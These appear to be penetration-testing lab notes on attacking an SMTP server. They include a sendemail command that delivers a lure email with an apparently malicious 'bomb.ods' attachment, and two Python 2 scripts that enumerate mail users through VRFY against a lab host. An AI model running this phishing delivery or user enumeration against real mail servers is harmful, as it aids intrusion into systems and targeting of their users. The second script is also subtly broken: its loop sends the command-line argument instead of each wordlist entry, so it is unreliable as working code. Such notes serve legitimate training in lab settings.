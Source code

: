 ```bash
## -s, target and port
## -u, subject
## -m, message
## -a, attatchment
sendemail -f 'jonas@localhost' \
    -t 'mailadmin@localhost' \
    -s 192.168.120.132:25 \
    -u 'Your spreadsheet' \
    -m 'Here is your requested spreadsheet' \
    -a bomb.ods
```

**Automate guess**

```python
#!/usr/bin/python
import socket
import sys
if len(sys.argv) != 2:
  print "Usage: vrfy.py <username>"
  sys.exit(0)
# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Connect to the Server
connect = s.connect(('10.11.1.217',25))
# Receive the banner
banner = s.recv(1024)
print banner
# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result = s.recv(1024)
print result
# Close the socket
s.close()
```

```python
#!/usr/bin/python
import socket
import sys
if len(sys.argv) != 2:
  print "Usage: vrfy.py <usernamelist>"
  sys.exit(0)

# Create a Socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Connect to the Server
connect = s.connect(('10.11.1.217',25))
# Receive the banner
banner = s.recv(1024)
print banner

file_open = open(sys.argv[1], "r")
for line in file_open:
    # VRFY a user
    s.send('VRFY ' + sys.argv[1] + '\r\n')
    result = s.recv(1024)
    print result

# Close the socket
s.close()
```

